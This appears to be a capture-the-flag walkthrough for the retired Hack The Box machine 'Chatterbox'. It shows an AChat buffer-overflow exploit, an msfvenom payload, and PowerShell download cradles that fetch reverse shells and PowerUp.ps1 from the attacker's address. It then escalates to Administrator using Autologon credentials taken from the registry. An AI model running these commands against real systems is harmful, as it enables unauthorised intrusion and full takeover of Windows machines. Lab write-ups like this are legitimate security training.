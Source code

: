 # Chatterbox

This is the write-up for the box Chatterbox that got retired at the 16th June 2018.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.74    chatterbox.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/chatterbox.nmap 10.10.10.74
```

```markdown
All 1000 scanned ports on 10.10.10.74 are filtered
```

Full TCP port scan:
```markdown
nmap -p- -o nmap/allports_chatterbox.nmap 10.10.10.74
```

```markdown
PORT      STATE   SERVICE
9255/tcp  open    mon
9256/tcp  open    unknown
```

Scanning the services on these ports:
```markdown
nmap -sC -sV -p 9255,9256 -o nmap/ports_chatterbox.nmap 10.10.10.74
```

```markdown
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
```

## Checking AChat chat system (Port 9255 & 9256)

On the web page of this **AChat chat system** there is a blank page.

Lets search for vulnerabilities for **AChat**:
```markdown
searchsploit achat
```

There is one vulnerability that is a Remote Buffer Overflow that we are going to use.
In this Python script, the server address has to be changed to 10.10.10.74 and we will modify the payload as it only executes _calc.exe_ by default.
Instead we will use a Powershell command to upload a reverse shell from our local client:
```markdown
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/shell.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

The generated payload from **Msfvenom** has to replace the default payload.
The shell which I upload is from the **Nishang framework** called _Invoke-PowershellTcp.ps1_. This needs to be renamed to _shell.ps1_ as I have called it in the payload.

Now starting a local web server and a listener on port 9001 and the Python script can be executed.
```markdown
python 36025.py
```

After executing, it downloads the _shell.ps1_ and starts a reverse shell on my IP and port 9001 as the user _alfred_.

## Privilege Escalation

To get an attack surface on the box, it is good to run any **Windows Enumeration Script**:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:8000/PowerUp.ps1')

Invoke-AllChecks
```

After it did all checks, it finds Autologon credentials in the registry:
```markdown
DefaultDomainName    :      
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
```

On the box are three users:
```markdown
net users
```
- Alfred
- Guest
- Administrator

Lets create a credential variable with this password and try to run commands as _Administrator_:
```powershell
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/shellasadmin.ps1')" -Credential $cred
```

This starts a process and downloads the same _shell.ps1_ from before but I changed the port to 9002 and called the script _shellasadmin.ps1_.
After executing this command the listener on my IP and port 9002 starts a reverse shell as _Administrator_!

